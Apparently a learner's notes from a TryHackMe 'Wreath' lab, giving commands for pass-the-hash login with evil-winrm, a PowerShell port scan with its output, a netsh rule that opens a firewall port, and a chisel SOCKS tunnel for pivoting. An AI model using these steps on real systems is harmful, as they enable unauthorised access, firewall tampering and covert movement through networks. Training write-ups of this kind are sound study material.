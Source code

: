 Using Evil-winrm we can pass the scripts folder  and call a particular script afterwards

`evil-winrm -u Administrator  -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.89.150 -s /usr/share/powershell-empire/data/module_source/situational_awareness/network/`

loading the script
`Invoke-Portscan.ps1`

using the script
`Invoke-Portscan -Hosts 10.200.89.100 -TopPorts 50`

output:
`Hostname      : 10.200.89.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 79, 88...}
finishTime    : 4/30/2021 4:07:54 PM
`
![[Screenshot 2021-04-30 at 8.46.55 PM.png]]


opening the port in the git server using netsh

`netsh advfirewall firewall add rule name="Chisel-sp00f" dir=in action=allow protocol=tcp localport=20000`

upload the chisel binary and run it from the port opened above 
`upload /home/sp00f/THM/Wreath/10.200.109.100/www/chisel-sp00f.exe`
`.\chisel-sp00f.exe server -p 20000 --socks5`
![[Screenshot 2021-04-30 at 9.07.10 PM.png]]

listen on the port locally
`chisel client 10.200.89.150:20000 7070:socks`
![[Screenshot 2021-04-30 at 9.37.24 PM.png]]

